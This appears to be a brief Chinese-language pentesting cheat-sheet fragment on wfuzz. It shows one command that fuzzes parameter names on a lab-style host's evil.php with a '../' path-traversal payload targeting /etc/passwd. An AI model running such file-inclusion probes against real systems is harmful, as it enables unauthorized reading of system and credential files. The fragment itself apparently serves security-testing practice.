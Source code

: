 # Wufzz 实战手册

# fuzz 文件包含

```
sudo wfuzz -u "10.10.10.18/secret/evil.php?FUZZ=../../../../../../../etc/passwd" -w /usr/share/seclists/Discovery/Web-Content/common.txt --hw 0
```